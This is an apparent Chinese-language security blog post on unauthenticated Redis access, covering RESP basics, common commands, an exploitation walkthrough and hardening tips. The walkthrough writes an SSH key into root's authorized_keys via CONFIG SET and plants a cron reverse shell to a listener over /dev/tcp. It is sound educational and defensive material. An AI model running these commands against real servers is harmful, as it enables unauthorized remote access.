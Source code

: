 ```yaml
---
title: Redis 未授权漏洞简介
date: 2018-07-25 00:00:00
tags:
  - Redis
---
```


> 本文仅供学习交流使用，切勿用于非法用途

- <!--more-->

## redis 概述

Redis 是一个开源（BSD 许可）的，内存中的数据结构存储系统，它可以用作数据库、缓存和消息中间件。

redis 协议使用符号前缀标识数据类型

> In RESP, the type of some data depends on the first byte:
>
> - For Simple Strings the first byte of the reply is "> +"
> - For Errors the first byte of the reply is "-"
> - For Integers the first byte of the reply is ":"
> - For Bulk Strings the first byte of the reply is "\$"
> - For Arrays the first byte of the reply is "\*"

## 常用命令

- `GET key`获取 key 值
- `SET key value [expiration EX seconds|PX milliseconds] [NX|XX]` 将键 key 设定为指定的字符串值，覆盖旧值和过期时间
  - EX seconds – 设置键 key 的过期时间/秒
  - PX milliseconds – 设置键 key 的过期时间/毫秒
  - NX – 只有键 key 不存在的时候才会设置 key 的值
  - XX – 只有键 key 存在的时候才会设置 key 的值
- `DEL key [key ...]`删除指定 key 的值，返回删除的 key 的数量
- `KEYS pattern`查找所有符合给定模式 pattern（正则表达式）的 key
- `INFO`返回关于 Redis 服务器的各种信息和统计数值
- `CONFIG GET parameter`读取 redis 服务器的配置文件参数
- `CONFIG SET parameter`设置 redis 服务器的配置文件参数
- `SAVE`将数据保存到磁盘
- `FLUSHDB`删除当前数据库里面的所有数据
- `AUTH password`密码认证

## 未授权利用

- 利用前提：目标机器 redis 端口暴露，未设置密码（或仅设置弱密码）且 redis 运行在高权限用户
- 利用原理：redis 提供的 config 命令可以修改数据文件的位置，通过将自己的公钥写入 redis，然后修改数据文件保存位置，覆盖`~/.ssh/authorized_keys`可以获得服务器访问权限
- 利用过程

```bash
# 连接 redis 默认端口
nc 192.168.1.1 6379

# 尝试查看 redis 信息 提示未认证
info
-NOAUTH Authentication required.

# 认证
auth ${PASSWORD}
+OK

# 查看当前目录
config get dir
*2
$3
dir
$19
/var/lib/redis/6379

# 查看数据文件名
config get dbfilename
*2
$10
dbfilename
$8
dump.rdb

# 设置 x 的值为公钥
set x "\n\n\nssh-rsa AAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n\n\n"
+OK

# 修改目录为 /root/.ssh
config set dir /root/.ssh/
+OK

# 修改数据文件为 authorized_keys
config set dbfilename authorized_keys
+OK

# 保存数据
save
+OK

# 删除 x 的值
del x
:1

# 关闭连接
quit
+OK
```

在 crontab 里写入反弹 shell 同样能够获取目标机器权限

```bash
# 在 crontab 里写入反弹 shell
set x "\n\n\n* * * * * bash -i >& /dev/tcp/192.168.1.1/8888 0>&1\n\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

之后在本机监听端口即可

```
# 本地监听
nc -lvnp 8888

# 查看crontab任务
crontab -l
```

## 防护方式

- 使用强密码`requirepass XXXXXXXXX`
- 关闭外网访问`bind 127.0.0.1`
- 修改默认的端口，一定程度上避免被扫描
- 使用低权限用户启动 redis
- 在 redis.conf 禁用高危命令

```
rename-command FLUSHALL ""
rename-command FLUSHDB ""
rename-command CONFIG ""
rename-command EVAL ""
```

## 参考文献

- [redis](https://redis.io)
- [Redis 未授权访问配合 SSH key 文件利用分析](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)
